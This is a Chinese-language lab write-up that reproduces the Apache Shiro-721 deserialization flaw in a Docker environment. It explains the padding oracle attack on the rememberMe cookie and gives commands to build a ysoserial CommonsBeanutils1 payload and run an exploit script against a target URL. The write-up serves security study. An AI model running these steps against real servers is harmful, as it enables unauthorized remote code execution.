 ```yaml
---
title: Java反序列化Shiro篇02-Shiro721
date: 2025-10-4 20:00:00
tags: JAVA
categories: JAVA安全-JAVA反序列化
---
```


# 环境搭建

```
docker pull vulfocus/shiro-721
 docker run -d -p 8080:8080 vulfocus/shiro-721
```

# 漏洞说明

Shiro>1.2.4往后对shiro550进行了修复，AES加密的key值不再是硬编码，是系统随机生成的。shiro721用到的加密方式是AES-CBC，而cookie解析过程跟cookie的解析过程一样，也就意味着如果能伪造恶意的rememberMe字段的值且目标含有可利用的攻击链的话，还是能够进行RCE的。

通过`Padding Oracle Attack`攻击可以实现破解`AES-CBC`加密过程进而实现rememberMe的内容伪造。

原理就是进行爆破

# 漏洞复现

使用给出的账号密码勾选rememberme登录之后，`cookie`中有`rememberme`值

![image-20251004151139808](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8702-Shiro721/image-20251004151139808.png)

发送一个恶意的`rememberme`值。如果key正确，则返回包中不会有`rememberMe=DeleteMe`。如果不正确就会存在`rememberMe=DeleteMe`

先试用ysoserial.jar生成序列化后的内容，然后使用Padding Oracle Attack攻击脚本去爆破key值，爆破成功后替换rememberme即可

[inspiringz/Shiro-721: Shiro-721 RCE Via RememberMe Padding Oracle Attack](./https://github.com/inspiringz/Shiro-721/tree/master)

```shell
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/123" > payload.class


#Padding Oracle Attack攻击脚本使用方法
#安装脚本不需要 pip install paddingoracle
#使用exp目录下的脚本即可,exp目录下有paddingoracle脚本
Usage: .\shiro_exp.py <url> <somecookie value> <payload>
#注：这个攻击脚本运行时间很长
```

![image-20251004151441139](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8702-Shiro721/image-20251004151441139.png)